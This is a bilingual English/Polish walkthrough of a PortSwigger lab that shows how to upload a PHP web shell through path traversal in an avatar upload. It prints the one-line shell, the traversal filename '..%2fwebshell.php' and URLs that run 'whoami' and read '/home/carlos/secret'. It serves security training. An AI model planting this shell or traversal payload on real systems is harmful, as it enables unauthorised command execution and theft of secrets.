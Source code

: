 # # Web shell upload via path traversal (ENG 🇬🇧 | PL 🇵🇱 )

🇬🇧 ENG:

Link: https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal

In this example, we will see how to combine several vulnerabilities - path traversal and file upload.

Click on "**Access the lab**", proceed to "**My Account**", and log in using: "**wiener:peter**".

This is how the panel should look after logging in:

![panel after logging](https://www.dropbox.com/scl/fi/yhwb4ya7a3vx9qyum2pu4/pb-kJacdFYPlG.png?rlkey=ahhwgk4pic4c8kcmublgfwo1w&raw=1)

I have prepared a file named "**webshell.php**", I select it. After uploading the file, I see a message that the file has been uploaded:

![file uploaded](https://www.dropbox.com/scl/fi/kg3rzlnp4noeb594gotpl/pb-yrEvpQesyo.png?rlkey=xx1x2k82euqop0tukplzk2irt&raw=1)

We go back to "My Account", right-click on the file that is visible below, and select "Copy image address":

![copy image](https://www.dropbox.com/scl/fi/x87esgssphhco1drubiuj/pb-a0tR9juNXg.png?rlkey=u9i2c3oe8rcc52w9ahxf18xb5&raw=1)

We see that we can read this file, but it is not executable:

![php file](https://www.dropbox.com/scl/fi/9dzu0amzaa1zesjqmw8yn/pb-5fkb6zAAgw.png?rlkey=r38kjt8w5yfcqd2tuq2n0i4sd&raw=1)

```
<?php system($_GET[ 'cmd']) ;?>
```

In Burp Suite, I send the request responsible for sending our file to the server to "Repeater":

![request to repeater](https://www.dropbox.com/scl/fi/jikwdmq7mbkjrqcchq2h0/pb-HiFbjSfmnX.png?rlkey=r6he0yqjy4q0hrfu45u8h9kgu&raw=1)

It may happen that the folder to which we upload our files has settings that prevent those files from being executed by the PHP engine.

What we can try to do is to upload our file "**webshell.php**" to a different location. We can use path traversal, which is moving between directories, and enter for example two dots and a slash:

```
filename="../webshell.php"
```

After sending such a modified request, we receive information that the file has been uploaded:

part of the request:
```
Content-Disposition: form-data; name="avatar"; filename="..%2fwebshell.php"
Content-Type: text/php
```

response:
```
HTTP/2 200 OK
Date: Mon, 19 Feb 2024 18:50:56 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 136

The file avatars/../webshell.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

It is worth mentioning that the slash above in the request was encoded as %2f.

Let's try to refer to it. However, we will not find it in the same directory as before. It should be located in the directory above. So instead of:

```
https://0a840043037fcbd581e5deef00960003.web-security-academy.net/files/avatars/webshell.php
```

We enter:

```
https://0a840043037fcbd581e5deef00960003.web-security-academy.net/files/webshell.php
```

We see an empty page:

![empty page](https://www.dropbox.com/scl/fi/qztml8mp7avtm9i9aqy80/pb-T0G9fJufNw.png?rlkey=5q7ltq5ih7dhyuevcwlpkrvxc&raw=1)

We change the address, adding the cmd parameter:

```
https://0a840043037fcbd581e5deef00960003.web-security-academy.net/files/webshell.php?cmd=whoami
```

![cmd whoami](https://www.dropbox.com/scl/fi/sdu3a6np81q6p9es0rex4/pb-8oUYs090Ba.png?rlkey=xastm8md4k4c4q4om8ef38aeg&raw=1)

We are the user carlos.

We change the command to:

```
https://0a840043037fcbd581e5deef00960003.web-security-academy.net/files/webshell.php?cmd=cat%20/home/carlos/secret
```

The password appears:

```
7vXvIKxXZ4DaGIbRHxokIWH4V3rKnnlJ
```

![submit](https://www.dropbox.com/scl/fi/q6l8njw4949f7nfnntcy0/pb-5HRA8JhhO3.png?rlkey=3z5vioe8dc8g28f7vz41acnek&raw=1)

We paste it after clicking the "**Submit solution**" button. Click "**OK**".

Lab solved:

![lab solved](https://www.dropbox.com/scl/fi/q41e9b0sut8vjkzs9g76o/pb-klAI5L3GKH.png?rlkey=9l04xhbrfibrimwbd0adquj87&raw=1)

---

🇵🇱 PL:

Link: https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal

W tym przykładzie zobaczymy, jak można połączyć kilka podatności - path traversal i upload plików.

Klikamy "**Access the lab**", przechodzimy do "**My Account**", logujemy się podając: "**wiener:peter**".

Tak powinien wyglądać panel po zalogowaniu:

![panel after logging](https://www.dropbox.com/scl/fi/yhwb4ya7a3vx9qyum2pu4/pb-kJacdFYPlG.png?rlkey=ahhwgk4pic4c8kcmublgfwo1w&raw=1)

Mam przygotowany plik "**webshell.php**", wybieram go. Po wysłaniu pliku, widzę informację, że plik został załadowany:

![file uploaded](https://www.dropbox.com/scl/fi/kg3rzlnp4noeb594gotpl/pb-yrEvpQesyo.png?rlkey=xx1x2k82euqop0tukplzk2irt&raw=1)

Wracamy do "My Account", klikamy prawym przyciskiem myszy na pliku, który jest widoczny poniżej i wybieramy "Copy image address":

![copy image](https://www.dropbox.com/scl/fi/x87esgssphhco1drubiuj/pb-a0tR9juNXg.png?rlkey=u9i2c3oe8rcc52w9ahxf18xb5&raw=1)

Widzimy, że możemy odczytać ten plik, ale nie jest on wykonywalny:

![php file](https://www.dropbox.com/scl/fi/9dzu0amzaa1zesjqmw8yn/pb-5fkb6zAAgw.png?rlkey=r38kjt8w5yfcqd2tuq2n0i4sd&raw=1)

```
<?php system($_GET[ 'cmd']) ;?>
```

W Burp Suite, request który jest odpowiedzialny za wysłanie naszego pliku do serwera, wysyłam do "Repeatera":

![request to repeater](https://www.dropbox.com/scl/fi/jikwdmq7mbkjrqcchq2h0/pb-HiFbjSfmnX.png?rlkey=r6he0yqjy4q0hrfu45u8h9kgu&raw=1)

Może się tak zdarzyć, że folder do którego wrzucamy nasze pliki, ma takie ustawienia, że te pliki nie są wykonywane przez silnik php.

To, co możemy spróbować zrobić, to wrzucić nasz plik "**webshell.php**" w inne miejsce. Możemy użyć path traversal, czyli przejścia pomiędzy katalogami i wpisać np. dwie kropki i slash:

```
filename="../webshell.php"
```

Po wysłaniu tak zmodyfikowanego requestu, otrzymujemy informację, że plik został zuploadowany:

część requestu:
```
Content-Disposition: form-data; name="avatar"; filename="..%2fwebshell.php"
Content-Type: text/php
```

response:
```
HTTP/2 200 OK
Date: Mon, 19 Feb 2024 18:50:56 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 136

The file avatars/../webshell.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Warto wspomnieć, że ukośnik powyżej w requeście został zapisany jako %2f.

Spróbujmy się do niego odwołać. Nie znajdziemy go jednak w tym samym katalogu, co wcześniej. Powinien znajdować się w katalogu wyżej. Czyli zamiast:

```
https://0a840043037fcbd581e5deef00960003.web-security-academy.net/files/avatars/webshell.php
```

Wpisujemy:

```
https://0a840043037fcbd581e5deef00960003.web-security-academy.net/files/webshell.php
```

Widzimy pustą stronę:

![empty page](https://www.dropbox.com/scl/fi/qztml8mp7avtm9i9aqy80/pb-T0G9fJufNw.png?rlkey=5q7ltq5ih7dhyuevcwlpkrvxc&raw=1)

Zmieniamy adres, dodając parametr cmd:

```
https://0a840043037fcbd581e5deef00960003.web-security-academy.net/files/webshell.php?cmd=whoami
```

![cmd whoami](https://www.dropbox.com/scl/fi/sdu3a6np81q6p9es0rex4/pb-8oUYs090Ba.png?rlkey=xastm8md4k4c4q4om8ef38aeg&raw=1)

Jesteśmy użytkownikiem carlos.

Zmieniamy komendę na:

```
https://0a840043037fcbd581e5deef00960003.web-security-academy.net/files/webshell.php?cmd=cat%20/home/carlos/secret
```

Pokazuje się hasło:

```
7vXvIKxXZ4DaGIbRHxokIWH4V3rKnnlJ
```

![submit](https://www.dropbox.com/scl/fi/q6l8njw4949f7nfnntcy0/pb-5HRA8JhhO3.png?rlkey=3z5vioe8dc8g28f7vz41acnek&raw=1)

Wklejamy je po kliknięciu przycisku "**Submit solution**". Klikamy "**OK**".

Lab rozwiązany:

![lab solved](https://www.dropbox.com/scl/fi/q41e9b0sut8vjkzs9g76o/pb-klAI5L3GKH.png?rlkey=9l04xhbrfibrimwbd0adquj87&raw=1)

